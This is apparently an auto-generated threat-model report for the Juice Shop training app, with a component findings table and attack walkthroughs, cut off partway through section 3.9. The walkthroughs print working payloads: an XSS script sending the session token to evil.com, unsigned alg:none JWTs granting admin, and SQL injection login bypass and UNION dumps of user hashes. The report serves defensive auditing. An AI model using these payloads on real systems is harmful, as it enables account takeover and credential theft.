

**Key takeaway:** Every actor in the context interacts with juice-shop through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



**Key takeaway:** The system decomposes into 1 client, 5 application and 1 data unit(s); Express Backend API carries the most Critical findings (5) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** Express Backend API concentrates the most findings (17 of 51 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats | Scope |
|----|----------------------|-----------|--------------------------------------|------------------------------------------------|------------|
| <a id="c-01"></a><a id="angular-spa"></a><span style="white-space:nowrap">C-01</span> | Angular SPA Frontend | client | `frontend/src/**`<br/>`frontend/dist/**` | 🔴 [F-001](#f-001) — Systemic XSS (`administration.component.ts:78`)<br/>🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password (`oauth.component.ts:30`)<br/>🔴 [F-014](#f-014) — Client-Side-Only Admin Route Guard (`app.guard.ts:52`)<br/>🟠 [F-023](#f-023) — JWT Bearer Token in localStorage (`login.component.ts:101`)<br/>🟡 [F-048](#f-048) — Unauthenticated WebSocket Connection (`socket-io.service.ts:21`) | Analyzed |
| <a id="c-02"></a><a id="express-backend"></a><span style="white-space:nowrap">C-02</span> | Express Backend API | application | `server.ts`<br/>`routes/**`<br/>`lib/**`<br/>`models/**`<br/>`app.ts` | 🔴 [F-006](#f-006) — JWT Algorithm Confusion (`lib/insecurity.ts:54`)<br/>🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-009](#f-009) — SQL Injection (`routes/search.ts:23`)<br/>🔴 [F-012](#f-012) — Remote Code Execution (`routes/b2bOrder.ts:23`)<br/>🔴 [F-013](#f-013) — Mass Assignment Role Injection (`server.ts:419`)<br/>🟠 [F-018](#f-018) — Rate Limit Bypass (`server.ts:346`)<br/>🔴 [F-019](#f-019) — NoSQL Injection (`routes/showProductReviews.ts:36`)<br/>🟠 [F-020](#f-020) — XML External Entity Injection (`routes/fileUpload.ts:83`)<br/>🟠 [F-022](#f-022) — Missing Structured Security Audit Log for Auth and Admin Events (`server.ts:338`)<br/>🔴 [F-029](#f-029) — Cryptographic Keys Served Unauthenticated (`server.ts:278`)<br/>🟠 [F-030](#f-030) — Access Log Exposure (`server.ts:281`)<br/>🟠 [F-031](#f-031) — Unauthenticated Encryption Key File Exposure (`server.ts:277`)<br/>🟠 [F-033](#f-033) — Missing Rate Limit on Login Endpoint (`server.ts:594`)<br/>🟠 [F-034](#f-034) — Event Loop Blocking (`routes/showProductReviews.ts:17`)<br/>🔴 [F-035](#f-035) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)<br/>🔴 [F-039](#f-039) — NoSQL Mass-Update (`routes/updateProductReviews.ts:17`)<br/>🟠 [F-040](#f-040) — Product Modification Without Auth Guard (`server.ts:369`) | Analyzed |
| <a id="c-03"></a><a id="data-layer"></a><span style="white-space:nowrap">C-03</span> | Data Layer (SQLite + File Store) | data | `models/**`<br/>`data/**`<br/>`ftp/**`<br/>`encryptionkeys/**`<br/>`logs/**` | 🔴 [F-005](#f-005) — Weak Password Hashing MD5 Without Salt (`lib/insecurity.ts:43`)<br/>🟠 [F-021](#f-021) — Query Logging Disabled No Audit Trail for Data Mutations (`models/index.ts:39`)<br/>🟠 [F-051](#f-051) — Data disclosure (`challenges.yml:1381`) | Analyzed |
| <a id="c-04"></a><a id="b2b-api"></a><span style="white-space:nowrap">C-04</span> | B2B Order API (RCE endpoint) | application | `routes/b2bOrder.ts` | - | Out of scope |
| <a id="c-05"></a><a id="ci-cd-pipeline"></a><span style="white-space:nowrap">C-05</span> | CI/CD Pipeline (GitHub Actions) | application | `.github/workflows/**`<br/>`Dockerfile`<br/>`docker-compose*.yml`<br/>`package.json`<br/>`package-lock.json` | 🔴 [F-002](#f-002) — Systemic Unverified Remote Code Execution in CI Pipeline (`ci.yml:161`)<br/>🟠 [F-024](#f-024) — Uses --unsafe-perm install flag — Dockerfile:5<br/>🟠 [F-025](#f-025) — GitHub Actions workflow missing top-level permissions (`update-news-www.yml:1`)<br/>🟠 [F-026](#f-026) — Third-party GitHub Action not pinned to commit SHA (`codeql-analysis.yml:23`)<br/>🟠 [F-027](#f-027) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-028](#f-028) — On not committed (`package-lock.json:1`)<br/>🟠 [F-036](#f-036) — Untrusted npm Install/Postinstall Scripts Enabled (`ci.yml:65`)<br/>🟠 [F-037](#f-037) — Missing Workflow-Level Permissions Block (`ci.yml:1`)<br/>🟠 [F-038](#f-038) — Pull_request_target with ORG_ADMIN_TOKEN (`pr-compliance.yml:4`)<br/>🟡 [F-042](#f-042) — Runs as root — Dockerfile:1<br/>🟡 [F-043](#f-043) — No container image signing in CI — :1<br/>🟡 [F-044](#f-044) — GitHub Actions GITHUB_TOKEN not minimized to contents:read (`lock.yml:1`)<br/>🟡 [F-045](#f-045) — Dependabot does not cover npm ecosystem — (missing):1<br/>🟢 [F-049](#f-049) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-050](#f-050) — Renovate config not found at repo root (`renovate.json:1`) | Analyzed |
| <a id="c-06"></a><a id="auth"></a><span style="white-space:nowrap">C-06</span> | Authentication & Session Surface | application | `lib/insecurity.ts`<br/>`lib/startup/registerWebsocketEvents.ts`<br/>`routes/2fa.ts`<br/>`routes/authenticatedUsers.ts`<br/>`routes/login.ts` | 🔴 [F-004](#f-004) — Insecure JWT Verification (`lib/insecurity.ts:54`)<br/>🔴 [F-007](#f-007) — SQL Injection (`routes/login.ts:34`)<br/>🔴 [F-010](#f-010) — Hardcoded Cryptographic Key (`lib/insecurity.ts:23`)<br/>🔴 [F-011](#f-011) — Role Escalation (`lib/insecurity.ts:54`)<br/>🟠 [F-015](#f-015) — Insecure Password Recovery (`routes/resetPassword.ts:41`)<br/>🟠 [F-017](#f-017) — Stored XSS (`routes/saveLoginIp.ts:18`)<br/>🟡 [F-041](#f-041) — Missing Authentication Event Audit Log (`routes/login.ts:18`)<br/>🟡 [F-046](#f-046) — Unbounded In-Memory Session Store (`lib/insecurity.ts:76`) | Analyzed |
| <a id="c-07"></a><a id="realtime-channel"></a><span style="white-space:nowrap">C-07</span> | Real-time WebSocket Channel | application | `lib/challengeUtils.ts`<br/>`lib/startup/registerWebsocketEvents.ts` | 🔴 [F-016](#f-016) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)<br/>🟠 [F-032](#f-032) — CTF Flag Broadcast to Unauthenticated WebSocket (`lib/challengeUtils.ts:70`)<br/>🟡 [F-047](#f-047) — Unbounded Unauthenticated WebSocket Connection (`registerWebsocketEvents.ts:19`) | Analyzed |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** The stack spans 1 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 Systemic XSS

**Source:** 🔴 [F-001](#f-001) — `frontend/src/app/administration/administration.component.ts:78`

Severity **Critical** ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)). STRIDE: Tampering. See [§8 F-001](#f-001) for the full register row.

**Attack Steps**

1. `administration.component.ts:78` calls `this.sanitizer.bypassSecurityTrustHtml(feedback.comment)` on every feedback record fetched from `/api/Feedbacks`, and line 60 wraps `user.email` in a `<span>` interpolated via the same bypass.
2. Both are bound to `[innerHTML]` in `administration.component.html` (lines 26 and 60 of the template).
3. An unauthenticated attacker submits a POST to `/api/Feedbacks` with `comment: '<script>fetch("https://evil.com/?"+localStorage.getItem("token"))</script>'`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-014](#m-014) (Encode output instead of bypassing the framework sanitizer) lands, 🔴 [F-001](#f-001) — Systemic XSS — `administration.component.ts:78` is exploitable at `frontend/src/app/administration/administration.component.ts:78` (Critical-severity, [CWE-79](https://cwe.mitre.org/data/definitions/79.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-014](#m-014) (Encode output instead of bypassing the framework sanitizer)

### 3.2 OAuth Implicit Flow with Derived Password

**Source:** 🔴 [F-003](#f-003) — `frontend/src/app/oauth/oauth.component.ts:30`

Severity **Critical** ([CWE-287](https://cwe.mitre.org/data/definitions/287.html)). STRIDE: Spoofing. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. The Google OAuth integration at `login.component.ts:134` uses `response_type=token`, initiating the implicit flow.
2. The access_token arrives in the URL fragment (#access_token=…) where it is visible to any JavaScript executing on the page, stored in browser history, and potentially leaked via the Referer header.
3. At `oauth.component.ts:30`, the component derives the user's Juice Shop password as `btoa(profile.email.split('').reverse().join(''))` - a deterministic, reversible transformation of the email claim.

**Sequence Diagram**



**Key takeaway:** Until ❷ [M-016](#m-016) (Harden the authentication flow) lands, 🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password — `oauth.component.ts:30` is exploitable at `frontend/src/app/oauth/oauth.component.ts:30` (Critical-severity, [CWE-287](https://cwe.mitre.org/data/definitions/287.html)).

**Defense in Depth**

- Primary mitigation: ❷ [M-016](#m-016) (Harden the authentication flow)

### 3.3 Insecure JWT Verification

**Source:** 🔴 [F-004](#f-004) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-287](https://cwe.mitre.org/data/definitions/287.html)). STRIDE: Spoofing. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

1. `security.isAuthorized()` at `lib/insecurity.ts:54` calls `expressJwt({ secret: publicKey })` without specifying an `algorithms` array.
2. Versions of `express-jwt` prior to the fix for `CVE-2020-15084` accept `alg:none` tokens when no algorithm constraint is applied - an attacker crafts a JWT with header `{"alg":"none"}` and an arbitrary payload such as `{"data":{"role":"admin","email":"attacker@x.com"}}`, omits the signature, and the middleware accepts it.
3. Separately, the RSA private key is hardcoded at `lib/insecurity.ts:23` (see auth-003), so an attacker can also forge fully signed `RS256` tokens offline.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-017](#m-017) (Harden the authentication flow) lands, 🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54` is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-287](https://cwe.mitre.org/data/definitions/287.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Harden the authentication flow)

### 3.4 Weak Password Hashing MD5 Without Salt

**Source:** 🔴 [F-005](#f-005) — `lib/insecurity.ts:43`

Severity **Critical** ([CWE-916](https://cwe.mitre.org/data/definitions/916.html)). STRIDE: Spoofing. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. The `hash()` function at `lib/insecurity.ts:43` computes `crypto.createHash('md5').update(data).digest('hex')` with no salt.
2. All user passwords stored in `data/juiceshop.sqlite` (Users table, `password` column) are unsalted `MD5` digests.
3. An attacker who obtains the SQLite file - via SQL injection union-select (see data-layer-002), path traversal, or server compromise - can recover all plaintext passwords from public rainbow tables in seconds.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-018](#m-018) (Hash passwords with a strong, salted algorithm) lands, 🔴 [F-005](#f-005) — Weak Password Hashing MD5 Without Salt — `lib/insecurity.ts:43` is exploitable at `lib/insecurity.ts:43` (Critical-severity, [CWE-916](https://cwe.mitre.org/data/definitions/916.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-018](#m-018) (Hash passwords with a strong, salted algorithm)

### 3.5 JWT Algorithm Confusion

**Source:** 🔴 [F-006](#f-006) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-327](https://cwe.mitre.org/data/definitions/327.html)). STRIDE: Spoofing. See [§8 F-006](#f-006) for the full register row.

**Attack Steps**

1. `express-jwt@0.1.3` is configured at `lib/insecurity.ts:54` as `expressJwt({ secret: publicKey })` with no `algorithms:` allowlist.
2. This version of express-jwt predates the `algorithms` parameter and accepts any algorithm the token header declares.
3. An attacker crafts a token with `alg: none` (unsigned) or switches the algorithm to `HS256` and signs with the RSA public key (which is served unauthenticated at `/encryptionkeys/jwt.pub`).

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-019](#m-019) (Replace the weak cryptographic algorithm) lands, 🔴 [F-006](#f-006) — JWT Algorithm Confusion — `lib/insecurity.ts:54` is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-327](https://cwe.mitre.org/data/definitions/327.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-019](#m-019) (Replace the weak cryptographic algorithm)

### 3.6 SQL Injection

**Source:** 🔴 [F-007](#f-007) — `routes/login.ts:34`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-007](#f-007) for the full register row.

**Attack Steps**

1. `req.body.email` and `req.body.password` are interpolated directly into a raw SQL string at `routes/login.ts:34` via `models.sequelize.query(\``SELECT * FROM Users WHERE email = '${req.body.email` || ''}' AND password = '\${`security.hash(req.body.password || '')`}'…\`)`.
2. No parameterization or prepared statements are used.
3. An attacker submits `' OR '1'='1` as the email value, which short-circuits the WHERE clause and returns the first Users row - the seeded admin account.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-020](#m-020) (Use parameterized database queries) lands, 🔴 [F-007](#f-007) — SQL Injection — `routes/login.ts:34` is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-020](#m-020) (Use parameterized database queries)

### 3.7 Insecure Direct Object Reference

**Source:** 🔴 [F-008](#f-008) — `routes/address.ts:11`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-008](#f-008) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/address.ts:11`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-021](#m-021) (Enforce object-level (ownership) authorization) lands, 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` is exploitable at `routes/address.ts:11` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-021](#m-021) (Enforce object-level (ownership) authorization)

### 3.8 SQL Injection

**Source:** 🔴 [F-009](#f-009) — `routes/search.ts:23`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-009](#f-009) for the full register row.

**Attack Steps**

1. The product search handler at `routes/search.ts:23` builds a raw SQL query by interpolating `req.query.q` directly into the SELECT string: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`.
2. No parameterization or prepared statement is used.
3. An unauthenticated attacker submits a UNION-based payload (e.g., `q=')) UNION SELECT * FROM Users--`) to read all rows from the Users table, recovering email addresses and `MD5` password hashes.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-022](#m-022) (Use parameterized database queries) lands, 🔴 [F-009](#f-009) — SQL Injection — `routes/search.ts:23` is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-022](#m-022) (Use parameterized database queries)

### 3.9 Hardcoded Cryptographic Key

**Source:** 🔴 [F-010](#f-010) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Information Disclosure. See [§8 F-010](#f-010) for the full register row.

**Attack Steps**

